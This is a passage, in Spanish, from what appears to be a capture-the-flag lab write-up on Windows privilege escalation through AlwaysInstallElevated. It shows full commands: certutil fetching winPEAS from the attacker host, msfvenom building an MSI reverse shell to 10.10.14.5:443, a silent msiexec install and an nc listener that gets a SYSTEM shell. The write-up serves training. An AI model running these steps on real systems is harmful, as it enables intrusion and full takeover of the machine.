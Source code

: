 Ahora desde la máquina víctima, descargamos el archivo winPEASx64.exe alojado en nuestro equipo con la utilizada **certutil.exe** y procedemos a ejecutar el archivo.

```bash
certutil.exe -f -urlcache -split http://10.10.14.5/winPEASx64.exe winPEASx64.exe
****  Online  ****
  000000  ...
  1b4600
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

De toda la información arrojada por la aplicación, se observa que AlwaysInstallElevated presenta un valor de 1 en HKLM y HKCU; por lo que podemos instalar un paquete de Windows Installer (archivos msi) con privilegios elevador. Por lo tanto, generamos una reverse shell con la herramienta `msfvenom` ; incluso, dentro de los resultados de **winPEAS** nos comparte una liga hacia el sitio *hacktricks.xyz* en donde nos indican que es lo que tenemos que hacer para elevar privilegios.

```bash
Checking AlwaysInstallElevated
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

```bash
❯ msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.14.5 LPORT=443 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Compartimos el archivo msi hacia la máquina víctima (a través de un servidor con python), nos ponemos en escucha por el puerto 443 y procedemos a su ejecución.

```bash
msiexec /quiet /qn /i C:\Windows\Temp\Privesc\reverse.msi

C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 51996
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\System32>
```

Ya somos administradores del equipo y podemos visualizar la flag (root.txt).

